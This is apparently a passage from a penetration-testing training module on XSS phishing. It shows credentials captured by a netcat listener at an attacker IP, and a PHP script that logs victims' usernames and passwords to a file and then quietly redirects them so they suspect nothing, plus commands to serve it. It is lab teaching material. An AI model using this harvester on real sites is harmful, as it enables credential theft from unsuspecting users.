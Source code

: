 Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get ( `don't forget to replace OUR_IP in the XSS payload with your actual IP`):

```shell
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...

```

As we can see, we can capture the credentials in the HTTP request URL ( `/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` ( `don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

```shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started

```

Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

![](https://academy.hackthebox.com/storage/modules/103/xss_image_viewer.jpg)

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:

```shell
cat creds.txt
Username: test | Password: test

```
